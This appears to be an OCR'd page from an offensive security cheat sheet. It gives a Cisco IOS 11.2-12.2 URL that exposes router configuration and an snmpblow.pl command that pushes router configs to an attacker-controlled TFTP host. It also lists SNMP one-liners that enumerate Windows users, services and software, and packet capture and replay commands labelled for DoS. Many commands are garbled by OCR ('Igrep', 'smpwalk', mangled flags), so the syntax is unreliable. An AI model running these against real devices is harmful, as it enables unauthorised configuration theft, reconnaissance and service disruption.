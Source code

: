 
Cisco IOS 11.2-12.2 VULNERABILITY

http:// ip /level/ 16-99 /exec/show/config


# SNMP

MUST START TFTP SERVER 1ST

./snmpblow.pl -s srcip -d rtr_ip -t attackerip -f out.txt snmpstrings.txt


WINDOWS RUNNING SERVICES:

snmpwalk -c public -v1 ip 1 Igrep hrSWRunName 'cut -d" " -f4 


WINDOWS OPEN TCP PORTS :

smpwalk _ Igrep tcpConnState lout -d" " -f6 Isort -u 


WINDOWS INSTALLED SOFTWARE:

smPwalk - Igrep hrSWInstalledName 


WINDOWS USERS:

snmpwalk _ ip 1.3 Igrep 77.1.2.25 _ -f4


PACKET CAPTURING


CAPTURE TCP TRAFFIC ON PORT 22-23

tcpdump -nvvX -50 -i eth0 tcp portrange 22-23


CAPTURE TRAFFIC TO SPECIFIC IP EXCLUDING SPECIFIC SUBNET

tcpdump -I eth0 -tttt dst ip and not net 1.1.1.0/24


CAPTURE TRAFFIC B/W LOCAL-1 92.1

tcpdump net 192.1.1


CAPTURE TRAFFIC FOR <SEC> SECONDS

dumpcap -I eth0 -a duration: sec -w file file.pcap


REPLAY PCAP

file2cable	eth0 -f file.pcap


REPLAY PACKETS (FUZZ 1 DOS)

tcpreplay --topspeed --loop-0 --intf=eth0 .pcap_file_to_replay --mbps=10110011000


DNS
